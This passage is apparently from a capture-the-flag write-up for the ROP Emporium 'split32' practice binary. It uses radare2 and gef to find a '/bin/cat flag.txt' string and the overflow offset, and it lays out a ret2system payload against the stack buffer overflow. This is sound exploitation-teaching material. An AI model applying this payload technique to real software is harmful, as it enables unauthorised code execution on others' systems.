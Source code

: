 This function seems to be just doing `system("/bin/ls")` when called.

Let's check if this binary has any useful strings, let's check it in `radare`:-

```r
[0x08048480]> izzq~bin
0x8048747 8 7 /bin/ls
0x804a030 18 17 /bin/cat flag.txt
```
>izzq~<str> is used to find the address of a the strings which matches the pattern given.

---

### Attacking Plan


Now, we know it has a buffer overflow vulnerability and it contains `system` function which makes things easier. Secondly, it has a string `/bin/cat flag.txt`. So, which means we can do:-

```s
--------------------------------------------------------------
| buffer to EIP | system@plt | dummy_ret  | useful_string    |
--------------------------------------------------------------
```

---


Like, in 64bit we need to register to pass arguments, the 32bit calling convention differs, which means the function take parameters from stack. Due to this we have appended the useful string at the end of payload, which would be pushe dt stack and when system is called, it'll look for a string, hence executing the command.

### Finding offsets

Using `gdb`-'s extension plugin named `gef` we will create a cyclic buffer which will given as input, making it easier to get the offset.

```r
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /home/d4mianwayne/Pwning/fun/split32 
split by ROP Emporium
32bits

Contriving a reason to ask user for data...
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]


-- snip --

[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616c
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "split32", stopped 0x6161616c in ?? (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
```